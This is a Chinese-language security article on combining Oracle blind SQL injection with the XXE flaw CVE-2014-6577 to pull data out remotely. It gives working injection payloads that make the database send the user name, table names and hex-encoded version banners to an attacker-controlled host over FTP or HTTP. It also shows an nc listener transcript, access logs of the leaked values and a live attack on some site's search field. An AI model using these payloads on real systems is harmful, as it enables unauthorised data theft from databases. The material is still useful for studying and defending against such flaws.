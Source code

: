 # Oracle盲注结合XXE漏洞远程获取数据

0x00 前言
=======

* * *

想必大家对SQL注入已经耳熟能详，对XML实体注入（简称XXE）也有所了解。本文主要讨论了一种在存在ORACLE盲注的情况下远程获取数据的方式。其实和UTL_HTTP远程获取的方法差不多，只不过原理不同。

0x01 漏洞简析
=========

* * *

CVE-2014-6577，是Oracle在今年年初修补的XXE漏洞，已知受影响的范围：

11.2.0.3, 11.2.0.4, 12.1.0.1, 12.1.0.2，不排除那些已不受oracle支持的版本也存在此漏洞。攻击者可以通过利用构造SQL语句来触发XML解释器发送一个HTTP或者FTP请求，从而带来以下可能的威胁。

*   数据泄露
*   SSRF
*   端口扫描
*   拒绝服务攻击。

等等……

0x02 漏洞利用
=========

* * *

文献中给出的一个利用POC：

在远程主机上用nc监听21端口，当有连接后，输入220

```
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "ftp://'||user||':bar@11.11.11.11/test"> %remote; %param1;]>'),'/l') from dual;

```

and

```
[root@localhost httpd]# busybox nc -vvlp 21
listening on [::]:21 ...
connect to [::ffff:11.11.11.11]:21 from [::ffff:22.22.22.22]:37040 ([::ffff: 22.22.22.22]:37040)
220
USER XXXX _WEB_ XXXX
220
PASS bar
^Csent 8, rcvd 33
punt!

```

在断开连接的同时，ORACLE会报以下错误

将把给出的POC变形，ftp请求换成http，

```
ORA-31000: 资源 'ftp://XXXX_WEB_XXXX:bar@11.11.11.11/test' 不是 XDB 方案文档     

ORA-06512: 在 "SYS.XMLTYPE", line 310     

ORA-06512: 在 line 1
…………

```

and

```
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11.11.11.11/'||user||'"> %remote; %param1;]>'),'/l') from dual

```

这样不用启动nc或者ftp服务端即可在http日志中收到请求:

```
22.22.22.22  - - [27/Apr/2015:07:56:53 -0400] "GET /XXXX_WEB_XXXX  HTTP/1.0" 404 294 "-" "-"

```

0x03 漏洞实战
=========

* * *

某个搜索功能存在SQL注入漏洞

可以判断存在盲注，而且数据库基本能确定为oracle

```
XXX%'and 233=233 '%'='              页面正常
XXX%'and 233=2333 '%'='             页面无结果
XXX%'and 1=(select 1 from dual) '%'='   页面正常

```

构造如下语句 服务器收到如下请求：

```
XXX%'and 1=(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11.11.11.11/'||(SELECT TABLE_NAME FROM (SELECT ROWNUM AS R,TABLE_NAME FROM USER_TABLES) WHERE R=1)||'"> %remote; %param1;]>'),'/l') from dual) and '%'='

```

and

```
22.22.22.22 - - [27/Apr/2015:22:00:46 -0400] "GET /EC_COMP_BINARY_INFO HTTP/1.0" 404 297 "-" "-"

```

还可以这么构造，一次返回数条结果

服务器收到如下请求：

对于结果中带空白符或者其他特殊符号的，在此处Oracle并不会自动URL编码，所以为了顺利的获得数据可以用oracle的自带函数utl_raw.cast_to_raw()将结果转换为HEX。

```
22.22.22.22 - - [27/Apr/2015:23:12:01 -0400] "GET /EC_COMP_BINARY_INFO////EC_COMP_BINARY_MAPPING HTTP/1.0" 404 323 "-" "-"

```

and

```
XXX%'and 1=(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11.11.11.11/'||(SELECT utl_raw.cast_to_raw(BANNER) FROM (SELECT ROWNUM AS R,BANNER FROM v$version) WHERE R=1)||'////'||(SELECT utl_raw.cast_to_raw(BANNER) FROM (SELECT ROWNUM AS R,BANNER FROM v$version) WHERE R=2)||'"> %remote; %param1;]>'),'/l') from dual) and '%'='

```

收到的请求：

经过HEX解码可得

```
/Oracle Database 11g Enterprise Edition Release 11.2.0.2.0 - 64bit Production////PL/SQL Release 11.2.0.2.0 - Production

22.22.22.22 - - [28/Apr/2015:03:50:16 -0400] "GET /4F7261636C652044617461626173652031316720456E74657270726973652045646974696F6E2052656C656173652031312E322E302E322E30202D2036346269742050726F64756374696F6E////504C2F53514C2052656C656173652031312E322E302E322E30202D2050726F64756374696F6E HTTP/1.0" 404 510 "-" "-"

```

参考文献：
=====

* * *

https://blog.netspi.com/advisory-xxe-injection-oracle-database-cve-2014-6577/